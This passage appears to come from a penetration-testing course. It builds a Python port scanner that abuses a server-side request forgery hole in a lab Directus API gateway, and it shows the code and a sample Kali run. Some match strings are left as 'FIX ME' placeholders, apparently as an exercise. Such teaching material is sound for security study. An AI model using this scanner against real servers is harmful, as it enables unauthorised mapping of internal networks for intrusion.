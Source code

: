 Next, we will define our arguments and parse them. We will need an argument for the host vulnerable to SSRF and an argument for the host or IP address we want to load with the SSRF. We'll include a timeout argument so we can account for any network latency. Finally, we'll add a verbose argument for greater control of script output.

parser = argparse.ArgumentParser()
parser.add_argument('-t','--target', help='host/ip to target', required=True)
parser.add_argument('--timeout', help='timeout', required=False, default=3)
parser.add_argument('-s','--ssrf', help='ssrf target', required=True)
parser.add_argument('-v','--verbose', help='enable verbose mode', action="store_true", default=False)

args = parser.parse_args()
Listing 28 - SSRF port scanner arguments

For the final part, we'll need a list of ports that we want to scan, using only common services and HTTP ports in this initial scan. We can always expand it later. For each port in our list, we want to send a request via the SSRF vulnerability and inspect the response body. Based on the response messages, we can infer if a port is open and what kind of service might be running on it.

ports = ['22','80','443', '1433', '1521', '3306', '3389', '5000', '5432', '5900', '6379','8000','8001','8055','8080','8443','9000']
timeout = float(args.timeout)

for p in ports:
    try:
        r = requests.post(url=args.target, json={"url":"{host}:{port}".format(host=args.ssrf,port=int(p))}, timeout=timeout)

        if args.verbose:
            print("{port:0} \t {msg}".format(port=int(p), msg=r.text))

        if "You don't have permission to access this." in r.text:
            print("{port:0} \t OPEN - returned permission error, therefore valid resource".format(port=int(p)))
        elif "ECONNREFUSED" in r.text:
            print("{port:0} \t CLOSED".format(port=int(p)))
        elif "--------FIX ME--------" in r.text:
            print("{port:0} \t OPEN - returned 404".format(port=int(p)))
        elif "--------FIX ME--------" in r.text:
            print("{port:0} \t ???? - returned parse error, potentially open non-http".format(port=int(p)))
        elif "--------FIX ME--------" in r.text:
            print("{port:0} \t OPEN - socket hang up, likely non-http".format(port=int(p)))
        else:
            print("{port:0} \t {msg}".format(port=int(p), msg=r.text))
    except requests.exceptions.Timeout:
        print("{port:0} \t timed out".format(port=int(p)))
Listing 29 - SSRF port scanner

Let's run the script and check for any other open ports on the server running the Directus APIs.

kali@kali:~$ ./ssrf_port_scanner.py -t http://apigateway:8000/files/import -s http://localhost --timeout 5
22       CLOSED
80       CLOSED
443      CLOSED
1433     CLOSED
1521     CLOSED
3306     CLOSED
3389     CLOSED
5000     CLOSED
5432     CLOSED
5900     CLOSED
6379     CLOSED
8000     CLOSED
8001     CLOSED
8055     OPEN - returned permission error, therefore valid resource
8080     CLOSED
8443     CLOSED